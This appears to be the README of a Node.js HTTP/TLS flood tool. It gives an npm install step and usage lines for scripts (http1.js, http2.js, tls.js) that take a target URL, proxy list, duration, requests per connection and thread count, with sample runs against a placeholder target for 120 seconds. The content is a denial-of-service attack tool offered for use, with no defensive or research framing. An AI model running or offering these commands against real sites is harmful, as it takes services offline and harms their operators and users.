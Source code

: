#HTTP-TLS
---------------------------------------------------------------------------
npm i randomstring
---------------------------------------------------------------------------
node jsfile [METHOD] [TARGET] [PROXIES] [DURATION] [RPC] [THREADS]
---------------------------------------------------------------------------
node http1.js GET "https://target.com" http.txt 120 64 1
node http2.js GET "https://target.com" http.txt 120 64 1
---------------------------------------------------------------------------
node jsfile [TARGET] [DURATION] [THREADS] [RPC] [PROXIES]
---------------------------------------------------------------------------
node tls.js "https://target.com" 120 1 RPC http.txt
---------------------------------------------------------------------------
